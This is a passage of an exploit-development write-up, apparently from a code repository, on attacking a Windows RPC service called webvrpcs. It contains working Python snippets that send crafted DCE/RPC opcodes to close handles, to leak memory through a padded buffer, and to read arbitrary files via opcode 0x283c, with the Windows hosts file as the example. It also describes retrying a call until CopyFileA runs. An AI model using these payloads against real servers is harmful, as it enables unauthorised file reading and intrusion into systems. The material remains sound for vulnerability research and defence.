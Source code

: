 `fclose` takes 1 parameter which is `stream` to close the file handle
```python
# file close
opcode = 0x277b
buf = fstream # *stream
stubdata = struct.pack("<IIII", val, opcode, len(buf), len(buf))
stubdata += buf
res = call(dce, 1, stubdata)
print(res)
```



# Arbitrary File Read (0x283c)
This is a bit tricky because it requires luck to leak the memory.

## Observation
It was observed that Op Code 0x283c will first call `FindFirstFileA`. If the call success, it will send buffer of previous call to client at offset 0x260 which is determine by `msf-pattern`

For example, the server will return `BBBB` with following code

``` python
opcode = 0x1111 # Any Op Code
buf = b"\x41" * 260
buf += b"\x42\x42\x42\x42" 
stubdata = struct.pack("<IIII", val, opcode, len(buf), len(buf))
stubdata += buf
res = call(dce, 1, stubdata)
print(res)

# print offset 260
opcode = 0x283c
buf = b"C:\\Windows\\System32\\drivers\\etc\\hosts\x00"
stubdata = struct.pack("<IIII", val, opcode, len(buf), len(buf))
stubdata += buf
res = call(dce, 1, stubdata)
print(res)
```

Client receive the buffer because the app will eventually call `webvrpcs+0x3140` which used to send buffer to client.

The flow is like: 0x283c > `sub_3920` > `sub_3750` > `sub_3610` > `call dword_6248` = `webvrpcs+0x3140`

## Detailed Walkthrough

It was observed that at function `sub_39B0` call `CopyFileA` if 3rd parameter (i.e., `ebp`) is not 0x0. However, I cannot control the value of 3rd parameter. But still, the 3rd parameter will vary upon each call. Therefore, we can call it multiple times until the value is not 0x0.
